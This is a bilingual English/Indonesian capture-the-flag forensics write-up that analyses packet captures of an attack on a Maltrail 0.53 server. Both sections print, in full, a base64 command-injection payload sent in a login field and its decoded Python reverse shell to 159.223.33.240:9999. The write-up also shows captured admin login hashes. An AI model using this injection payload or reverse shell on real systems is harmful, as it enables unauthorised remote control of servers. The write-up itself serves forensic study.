 # **Analyze the Bad Hacker!**

**Difficulty:** Tedious and Meticulous (Personal Rating, not provided)  
**Flag:** `HCS{f0R3n51k_1tu_m3n4rik}`

---

## **EN**

For this challenge, we were given this `.pcapng` file, titled `budi.pcapng`.

At first, I was a bit turned down by this. Mostly due to the fact that I didn't have wireshark installed on my current machine, I didn't want to boot up my kali live instance, and that I'm currently on a relatively slow internet connection. So installation of wireshark could, and did, prove to be quite the hassle, especially due to the time limit later on.

Anyway, so what I did was, I looked for an online pcap viewer instead, and found `https://apackets.com/`.

Uploading the pcap file there results in this "analyzed" result:
![A-packets analysis](./assets/image.png)

1. First question asked for the name and version of the server that was analyzed, so what I did was I looked through HTTP Communication, specifically `GET`, because usually `GET` response headers also include the server type/software that returned the response. What I found was this:  
    ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   So that's question 1 down.

2. The second question asked for the credentials used by the hacker to successfully log into the server a second time in the format of `username:hash`. Assuming that `hash` is a hashed password or possibly a token of some sort, I looked through `POST` requests. After looking through them, I found these candidates:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   After some trial and error, I pinned it down to the third one: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. For the third question, it asked for the IP and port that the hacker used to access the server, probably the post-exploitation machine.

While looking at the `POST` requests for number 2, I noticed that a couple packets were looking like this:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

The use of `;` was clearly to escape some sort of templating mechanism, so whatever is after that is probably an RCE. I took the base64 encoded string and decoded it:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

To sum it up, it basically opens up a shell then connects it through a socket connection to... the post-exploitation device!  
`159.223.33.240:9999`  
So that's 3 down.

4. For number 4, it asked for the absolute path of the file that the hacker put on the server post-exploit.

The analysis from apackets wasn't deep enough to get to socket packets which are raw TCP, so I had to install wireshark to do the packet-by-packet analysis. Dumped into wireshark, we see this:
![A LOT OF PACKETS](./assets/image-3.png)
A **LOT** of packets, so to narrow it down, basing off number 3, we filter for TCP port 9999, that narrows it down to 87 packets.
![A lot to just 87 packets](./assets/image-4.png)
Now it's really just a matter of us scrolling down frame by frame to analyze what the post-exploit shell did.

1. At 2624-2625 the shell executes an `ls` command

![ls command](./assets/image-5.png)

2. At 2648 we see that the `ls` returned a `/`-esque output

![Looks like an "ls /" output](./assets/image-6.png)

3. Then, at 2742-2743, it does a `cd` to `/tmp`

![cd to `/tmp`](./assets/image-7.png)

4. Finally, at 2767-2768, the shell pipes a shell script to a file titled `.hmm.sh`

![hmm.sh](./assets/image-8.png)

To recap, it moved to `/tmp` and writes a file named `.hmm.sh`, so the absolute path is `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)

## **ID**

Untuk challenge yang ini, kita diberikan file `.pcapng` bernama `budi.pcapng`.

Awalnya aku sudah nggak enakan ketika melihat format filenya. Terutama karena aku belum punya wireshark di deviceku saat ini, aku nggak mau boot up kali, dan internetku lagi lemot. Jadi kalau menginstall wireshark mungkin, dan ternyata emang, ribet.

Jadi, aku mencari pcap viewer yang online, dan menemukan `https://apackets.com/`.

Setelah di upload pcapnya, keluarlah hasil yang telah teranalisis:  
![A-packets analysis](./assets/image.png)

1. Pertanyaan pertama meminta nama dan versi software yang digunakan pada server yang sedang dianalisis, jadi yang aku lakukan pertama adalah melihat bagian _HTTP Communication_, spesifiknya `GET`, karena biasanya header respons `GET` menyebutkan software dan versi dari server yang merespon. Yang aku temukan ini:  
   ![GET Request headers](./assets/image-1.png)  
   `Maltrail/0.53`  
   Soal 1 selesai.

2. Yang kedua meminta kredensial yang digunakan _hacker_ untuk log in ke server untuk yang kedua kalinya dengan format `username:hash`. Dengan mengasumsikan `hash` itu _password_ yang di-_hash_ ataupun sejenis token, aku melihat tiap `POST` request dalam pcap. Setelah melihat semuanya, aku menemukan kandidat-kandidat ini:

   1. `username=admin&hash=ad46649365c29fdaf9e12b95582e2e2c197f2fdea2c22806e84aa890ed2c2bd8&nonce=TIjxAmLEQZji`
   2. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`
   3. `username=admin&hash=56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73&nonce=YROwte2n59v1`

   Setelah _trial and error_, aku dapet yang ini sebagai yang benar: `admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73`

3. Untuk pertanyaan ketiga, dia meminta IP dan port yang digunakan hacker untuk mengakses server.

Saat melihat-lihat `POST` di pertanyaan 2, aku melihat ada dua paket yang isinya begini:

```
username=;`echo+"cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTU5LjIyMy4zMy4yNDAiLDk5OTkpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7b3MuZHVwMihzLmZpbGVubygpLDEpO29zLmR1cDIocy5maWxlbm8oKSwyKTtwdHkuc3Bhd24oIi9iaW4vc2giKSc="+|+base64+-d+|+sh`
```

Penggunaan `;` dalam input menunjukkan bahwa ini sebuah escape dari suatu sanitasi string, jadi apapun yang setelah itu kemugkinan adalah RCE. Aku ambil string base64nya dan aku decode:

![RCE Base64 decoded](./assets/image-2.png)

```sh
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Kesimpulannya, ini ngebuka shell, terus konek ke device _hacker_ lewat socket. Dari sini kita bisa lihat IP dan portnya:  
`159.223.33.240:9999`

4. Nomor 4 meminta _absolute path_ dari file yang _hacker_ taruh lewat shell di nomor 3.

Analisis apackets kurang dalem untuk melihat paket sockets yang biasanya _raw TCP_, jadi aku terpaksa menginstall wireshark terlebih dahulu. Dimasukkan ke situ hasilnya gini:  
![A LOT OF PACKETS](./assets/image-3.png)  
**Banyak** banget paketnya, jadi untuk mengurangi jumlah kandidat, kita filter ke TCP port 9999, jadi tinggal 87 paket aja.  
![A lot to just 87 packets](./assets/image-4.png)  
Sekarang tinggal scroll tiap _frame_ aja satu-satu sampe ngerti.

1. Di 2624-2625 shellnya ngejalanin `ls`

![ls command](./assets/image-5.png)

2. Di 2648 kita lihat outputnya kurang lebih outputnya `ls /`

![Looks like an "ls /" output](./assets/image-6.png)

3. Terus, di 2742-2743, dia `cd` ke `/tmp`

![cd to `/tmp`](./assets/image-7.png)

4. Akhirnya, di 2767-2768, shellnya ngepipe shell script ke file `.hmm.sh`

![hmm.sh](./assets/image-8.png)

Jadiii, kesimpulannya, dia ke `/tmp` terus nulis file `.hmm.sh`, jadi _absolute path_-nya `/tmp/.hmm.sh`.

🎉🎉🎉
![Finished!](./assets/image-9.png)
